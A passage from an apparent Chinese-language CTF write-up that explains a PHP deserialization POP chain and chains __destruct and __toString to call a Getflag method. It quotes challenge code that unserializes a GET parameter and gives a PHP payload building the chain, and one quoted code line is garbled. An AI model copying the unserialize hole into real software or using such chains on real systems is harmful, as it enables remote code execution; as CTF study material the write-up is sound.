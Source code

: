 ```php
}

$w00m = $_GET['w00m'];
unserialize($w00m);

?>
```

分析：

w44m是关键类，构造pop链子执行 `Getflag()`。

w22m类中有 `__destruct()`函数,是pop的入口。

w33m类中有 `__tostring()`，可以将w22m类中$w00m类赋值为w33m类的对象，触发w33m的 `__tostring()`。

```php
this->w00m->{this->w00m->{this->w22m}();
```

这段代码的含义：

1. **$this->w00m** :

* 这表示当前对象的 `w00m` 属性，该属性应该是一个对象实例。

1. **{$this->w22m}** :

* 这表示当前对象的 `w22m` 属性，该属性应该是一个字符串，表示对象 `w00m` 中的方法名。

1. **{$this->w22m}()** :

* 这意味着调用对象 `w00m` 中名称为 `w22m` 属性值的方法。

合成后的调用：

这段代码将 `w00m` 对象中的 `w22m` 方法调用了出来。如果 `w00m` 是一个对象，`w22m` 是它的一个方法名字符串，那么实际调用的就是这个方法。

所以，使w00m为w44m的对象，w22m为Getflag，就可以直接调用Getflag方法。

pop链子即构造完成，只需要满足 `if($this->admin === 'w44m' && $this->passwd ==='08067')`即可getflag。

private和protected变量不可以在pop链中赋值，必须在类中赋值。

Payload：

```php
<?php
class w44m{
    private $admin = 'w44m';
    protected $passwd = '08067';
}
class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}
class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}
$a = new w44m();
$b = new w22m();
$c = new w33m();

$b->w00m = $c;
$c->w00m = $a;
```